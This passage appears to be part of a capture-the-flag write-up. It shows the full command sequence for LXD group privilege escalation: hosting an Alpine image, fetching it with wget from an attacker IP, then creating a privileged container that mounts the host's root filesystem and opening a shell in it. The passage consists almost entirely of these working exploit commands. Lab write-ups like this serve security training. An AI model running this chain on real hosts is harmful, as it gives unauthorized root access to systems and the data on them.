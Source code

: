 ![[/assets/images/tabby37.png]]

```sh
python3 -m http.server 80
```

> change directory to `home/ash`

```sh
# target
wget http://10.10.14.50/alpine-v3.13-x86_64-20210218_0139.tar.gz

/snap/bin/lxd init

# enter (default) for all prompts

/snap/bin/lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine

/snap/bin/lxc image list
```

![[/assets/images/tabby38.png]]

```sh
/snap/bin/lxc init alpine mycontainer -c security.privileged=true

/snap/bin/lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

/snap/bin/lxc start mycontainer

/snap/bin/lxc exec mycontainer /bin/sh
```

![[/assets/images/tabby39.png]]

